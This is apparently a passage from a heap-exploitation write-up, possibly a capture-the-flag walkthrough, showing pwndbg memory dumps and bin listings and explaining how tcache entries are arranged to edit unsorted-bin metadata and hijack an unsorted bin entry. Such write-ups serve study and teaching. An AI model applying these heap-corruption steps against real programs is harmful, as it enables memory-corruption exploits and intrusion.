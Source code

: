 ```
0x560836be6ff0	0x0000000000000000	0x0000000000000000	................
0x560836be7000	0x0000000000000000	0x0000000000000000	................
0x560836be7010	0x0000000000000000	0x0000000000000000	................
0x560836be7020	0x0000000000000000	0x0000000000000000	................
0x560836be7030	0x0000000000000110	0x0000000000000110	................

[...]

pwndbg> bins

[...]

unsortedbin
all: 0x560836be6df0 —▸ 0x560836be6f20 —▸ 0x560836be6b90 —▸ 0x7f386c3fed00 ◂— 0x560836be6df0
smallbins
empty
largebins
empty


pwndbg> vis 0

0x560836be5000	0x0000000000000000	0x0000000000000291	................
0x560836be5010	0x0000000000010001	0x0007000000000000	................
0x560836be5020	0x0000000000000000	0x0007000000010001	................
0x560836be5030	0x0000000000000000	0x0000000000000000	................
0x560836be5040	0x0000000000070000	0x0000000000000000	................
0x560836be5050	0x0000000000000000	0x0000000000000000	................
0x560836be5060	0x0000000000000000	0x0000000000000000	................
0x560836be5070	0x0000000000000000	0x0000000000000000	................
0x560836be5080	0x0000000000000000	0x0000000000010001	................
0x560836be5090	0x0000560836be6b90	0x0000560836be6df0	.k.6.V...m.6.V..

[...]

pwndbg> tel 0x560836be5080
00:0000│  0x560836be5080 ◂— 0x0
01:0008│  0x560836be5088 ◂— 0x10001
02:0010│  0x560836be5090 —▸ 0x560836be6b90 ◂— 0x560836be6
03:0018│  0x560836be5098 —▸ 0x560836be6df0 ◂— 0x560836be6
04:0020│  0x560836be50a0 ◂— 0x0
... ↓     3 skipped

```

We now have a list of `unsorted bins`. We have two pointers in the `per-thread cache` pointing to the `unsorted bin 1` and `unsorted bin 2` entries. Our `0x10000` `cunk` in `per-thread cache` fulfills the requirements needed for a chunk and we can edit the meta-data for our unsorted bins via the `0xe0` and `0xf0` `t-cache entries`.

We are now finally ready to hijack an `unsorted bin entry`.
